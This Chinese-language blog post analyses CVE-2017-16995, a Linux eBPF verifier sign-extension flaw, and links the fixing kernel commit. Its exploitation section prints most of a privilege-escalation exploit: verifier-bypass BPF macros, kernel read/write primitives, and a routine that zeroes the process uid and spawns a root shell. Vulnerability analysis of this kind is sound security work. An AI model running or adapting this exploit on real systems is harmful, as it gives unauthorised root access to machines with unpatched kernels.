




---

layout: post

title: 'CVE-2017-16995 ebpf分析'

date: '2020-07-20'

header-img: "img/home-bg.jpg"

tags:
     - kernel cve analyze  
author: 'De4dCr0w'

---

<!-- more -->

## 前言

### eBPF虚拟指令系统

eBPF虚拟指令系统属于RISC，拥有10个虚拟寄存器，r0-r10，在实际运行时，虚拟机会把这10个寄存器一一对应于硬件CPU的10个物理寄存器，以x64为例，对应关系如下：

```
    R0 – rax
    R1 - rdi
    R2 - rsi
    R3 - rdx
    R4 - rcx
    R5 - r8
    R6 - rbx
    R7 - r13
    R8 - r14
    R9 - r15
    R10 – rbp（帧指针，frame pointer）
```

每条指令用bpf_insn结构体表示：

```
struct bpf_insn {
    __u8    code;       /* opcode */
    __u8    dst_reg:4;  /* dest register */
    __u8    src_reg:4;  /* source register */
    __s16   off;        /* signed offset */
    __s32   imm;        /* signed immediate constant */
};
```

### BPF的加载过程：

(1)用户程序调用syscall(__NR_bpf, BPF_MAP_CREATE, &attr, sizeof(attr))申请创建一个map，在attr结构体中指定map的类型、大小、最大容量等属性。

(2)用户程序调用syscall(__NR_bpf, BPF_PROG_LOAD, &attr, sizeof(attr))来将我们写的BPF代码加载进内核，attr结构体中包含了指令数量、指令首地址指针、日志级别等属性。在加载之前会利用虚拟执行的方式来做安全性校验，这个校验包括对指定语法的检查、指令数量的检查、指令中的指针和立即数的范围及读写权限检查，禁止将内核中的地址暴露给用户空间，禁止对BPF程序stack之外的内核地址读写。安全校验通过后，程序被成功加载至内核，后续真正执行时，不再重复做检查。

(3)用户程序通过调用setsockopt(sockets[1], SOL_SOCKET, SO_ATTACH_BPF, &progfd, sizeof(progfd)将我们写的BPF程序绑定到指定的socket上。Progfd为上一步骤的返回值。

(4)用户程序通过操作上一步骤中的socket来触发BPF真正执行。

### BPF的安全校验

Bpf指令的校验是在函数do_check中实现，代码路径为 kernel/bpf/verifier.c。do_check通过一个无限循环来遍历我们提供的bpf指令。

## 漏洞分析：

用户提交bpf代码时，进行一次验证(模拟代码执行)，而在执行的时候并不验证。




而漏洞形成的原因在于：模拟执行代码（验证的过程中）与真正执行时的差异造成的。该漏洞是由符号扩展引起的。

do_check 在检查立即数赋值时,赋值的是64位无符号整数：

```
static int check_alu_op(struct bpf_verifier_env *env, struct bpf_insn *insn)
    ……
    /* case: R = imm                                                 
    * remember the value we stored into this reg
    */

    regs[insn->dst_reg].type = SCALAR_VALUE;
	__mark_reg_known(regs + insn->dst_reg, insn->imm);
    ……
```

```
 431 /* Mark the unknown part of a register (variable offset or scalar value) as
 432  * known to have the value @imm.
 433  */
 434 static void __mark_reg_known(struct bpf_reg_state *reg, u64 imm)                                                                 
 435 {
 436     reg->id = 0;
 437     reg->var_off = tnum_const(imm);
 438     reg->smin_value = (s64)imm;
 439     reg->smax_value = (s64)imm;
 440     reg->umin_value = imm;
 441     reg->umax_value = imm;
 442 }

```

```
 10 struct tnum {                                                                                           
 11     u64 value;                               
 12     u64 mask;              
 13 };                                                               
 14                                                      
 15 /* Constructors */                                      
 16 /* Represent a known constant as a tnum. */                                                             
 17 struct tnum tnum_const(u64 value);    
```

在检验条件判断BPF_JNE时，检验判断时也是转化成64位无符号整数进行比较，两边类型相同，不会出现问题：
```
2947     /* detect if R == 0 where R was initialized to zero earlier */                                                               
2948     if (BPF_SRC(insn->code) == BPF_K &&
2949         (opcode == BPF_JEQ || opcode == BPF_JNE) &&
2950         dst_reg->type == SCALAR_VALUE &&
2951         tnum_equals_const(dst_reg->var_off, insn->imm)) {
2952         if (opcode == BPF_JEQ) {
2953             /* if (imm == imm) goto pc+off;
2954              * only follow the goto, ignore fall-through
2955              */
2956             *insn_idx += insn->off;
2957             return 0;
2958         } else {
2959             /* if (imm != imm) goto pc+off;
2960              * only follow fall-through branch, since
2961              * that's where the program will go
2962              */
2963             return 0;
2964         }
2965     }

```

```
 53 /* Returns true if @a == tnum_const(@b) */                                                              
 54 static inline bool tnum_equals_const(struct tnum a, u64 b)                                                                        
 55 {                                                                                                       
 56     return tnum_is_const(a) && a.value == b;                                                            
 57 }     
```



实际运行时：

```
/kernel/bpf/core.c: ___bpf_prog_run:

u64 regs[MAX_BPF_REG];
#define DST    regs[insn->dst_reg]
#define IMM    insn->imm

932             ALU_MOV_K:                                                                           933                     DST = (u32) IMM;         
934                     CONT;        

1077            JMP_JNE_K:                                                               
1078                    if (DST != IMM) {                                                
1079                            insn += insn->off;                                       
1080                            CONT_JMP;                                                
1081                    }                                                                
1082                    CONT;     

```
立即数在赋值给寄存器时，用u32做了强制类型转化，所以r2的值为0xffffffff（DST）,而在进行32位有符号与64位无符号的比较时，32位有符号整数 IMM 会符号扩展为64位，0xffffffff->0xffffffffffffffff（IMM）,导致比较时DST和IMM不相等，跳转执行恶意代码，而恶意代码部分在do_check时因为条件判断左右两值相等，没有被检查。

```
0: (b4) (u32) r2 = (u32) -1
1: (55) if r2 != 0xffffffff goto pc+2
2: (b7) r0 = 0
3: (95) exit
```



使用了符号扩展传送指令movslq，将短的源数据高位符号扩展后传送到目的地址，l表示双字，q表示四字，所以movslq表示将一个双字符号扩展后送到一个四字地址中。

## 漏洞利用

利用过程：

（1）申请长度为3的map

（2）其中

```
elem[0] -> r6
elem[1] -> r7
elem[2] -> r8
r6=op，r7=address，r8=value
```

（3） 读取r10，即栈地址

（4）通过获得的栈地址，计算得到栈的基地址

（5）栈的基地址上保存着task_struct的地址，读取task_struct地址

（6）读取task_struct中cred的地址

（7）覆写task_struct->cred.uid为0 ，进行提权

漏洞利用的insn指令如下：

```
#define BPF_DISABLE_VERIFIER()                                                       \
	BPF_MOV32_IMM(BPF_REG_2, 0xFFFFFFFF),             /* r2 = (u32)0xFFFFFFFF   */   \
	BPF_JMP_IMM(BPF_JNE, BPF_REG_2, 0xFFFFFFFF, 2),   /* if (r2 == -1) {        */   \
	BPF_MOV64_IMM(BPF_REG_0, 0),                      /*   exit(0);             */   \
	BPF_EXIT_INSN()                                   /* }                      */   \

#define BPF_MAP_GET(idx, dst)                                                        \
	BPF_MOV64_REG(BPF_REG_1, BPF_REG_9),              /* r1 = r9                */   \
	BPF_MOV64_REG(BPF_REG_2, BPF_REG_10),             /* r2 = fp                */   \
	BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, -4),            /* r2 = fp - 4            */   \
	BPF_ST_MEM(BPF_W, BPF_REG_10, -4, idx),           /* *(u32 *)(fp - 4) = idx */   \
	BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_map_lookup_elem),             \
	BPF_JMP_IMM(BPF_JNE, BPF_REG_0, 0, 1),            /* if (r0 == 0)           */   \
	BPF_EXIT_INSN(),                                  /*   exit(0);             */   \
	BPF_LDX_MEM(BPF_DW, (dst), BPF_REG_0, 0)          /* r_dst = *(u64 *)(r0)   */              

static int load_prog() {
	struct bpf_insn prog[] = {
		BPF_DISABLE_VERIFIER(),

		BPF_STX_MEM(BPF_DW, BPF_REG_10, BPF_REG_1, -16),   /* *(fp - 16) = r1       */

		BPF_LD_MAP_FD(BPF_REG_9, mapfd),

		BPF_MAP_GET(0, BPF_REG_6),                         /* r6 = op               */
		BPF_MAP_GET(1, BPF_REG_7),                         /* r7 = address          */
		BPF_MAP_GET(2, BPF_REG_8),                         /* r8 = value            */

		/* store map slot address in r2 */
		BPF_MOV64_REG(BPF_REG_2, BPF_REG_0),               /* r2 = r0               */
		BPF_MOV64_IMM(BPF_REG_0, 0),                       /* r0 = 0  for exit(0)   */

		BPF_JMP_IMM(BPF_JNE, BPF_REG_6, 0, 2),             /* if (op == 0)          */
        BPF_LDX_MEM(BPF_DW, BPF_REG_3, BPF_REG_7, 0),
		BPF_STX_MEM(BPF_DW, BPF_REG_2, BPF_REG_3, 0),
		BPF_EXIT_INSN(),

		BPF_JMP_IMM(BPF_JNE, BPF_REG_6, 1, 2),             /* else if (op == 1)     */
		BPF_STX_MEM(BPF_DW, BPF_REG_2, BPF_REG_10, 0),
		BPF_EXIT_INSN(),
        /* get fp */

		BPF_STX_MEM(BPF_DW, BPF_REG_7, BPF_REG_8, 0),  /* op == 2 */
		BPF_EXIT_INSN(),

	};
	return bpf_prog_load(BPF_PROG_TYPE_SOCKET_FILTER, prog, sizeof(prog), "GPL", 0);
}
```

op = 0: 读取r7的内容到elem[2]

op = 1：读取栈地址到elem[2]

op = 2: 将r8(elem[2])的值写进r7(elem[1])的地址上 

```
#define __update_elem(a, b, c) \
	bpf_update_elem(0, (a)); \
	bpf_update_elem(1, (b)); \
	bpf_update_elem(2, (c)); \
	writemsg();


static uint64_t __get_fp(void) {
	__update_elem(1, 0, 0); // 更新elem[0],elem[1],elem[2]

	return get_value(2);
}

static uint64_t __read(uint64_t addr) {
	__update_elem(0, addr, 0);

	return get_value(2);
}

static void __write(uint64_t addr, uint64_t val) {
	__update_elem(2, addr, val);
}

static uint64_t get_sp(uint64_t addr) {
	return addr & ~(0x4000 - 1);
}

static void pwn(void) {
	uint64_t fp, sp, task_struct, credptr, uidptr;

	fp = __get_fp(); //获得栈地址
	if (fp < PHYS_OFFSET)
		__exit("bogus fp");
	
	sp = get_sp(fp); // 通过栈地址，计算得到栈的基地址
	if (sp < PHYS_OFFSET)
		__exit("bogus sp");
	
	task_struct = __read(sp);//读取sp内容，保存的是当前进程的task_struct地址

	if (task_struct < PHYS_OFFSET)
		__exit("bogus task ptr");

	printf("task_struct = %lx\n", task_struct);

	credptr = __read(task_struct + CRED_OFFSET); // cred 读取cred的地址

	if (credptr < PHYS_OFFSET)
		__exit("bogus cred ptr");

	uidptr = credptr + UID_OFFSET; // uid
	if (uidptr < PHYS_OFFSET)
		__exit("bogus uid ptr");

	printf("uidptr = %lx\n", uidptr);
	__write(uidptr, 0); // set both uid and gid to 0

	if (getuid() == 0) {
		printf("spawning root shell\n");
		system("/bin/bash");
		exit(0);
	}

	__exit("not vulnerable?");
}

```


## 参考链接

分析文章：

https://www.anquanke.com/post/id/101923

https://xz.aliyun.com/t/2212

相关代码补丁 ：



https://github.com/torvalds/linux/commit/95a762e2c8c942780948091f8f2a4f32fce1ac6f

补丁commit：95a762e2c8c942780948091f8f2a4f32fce1ac6f

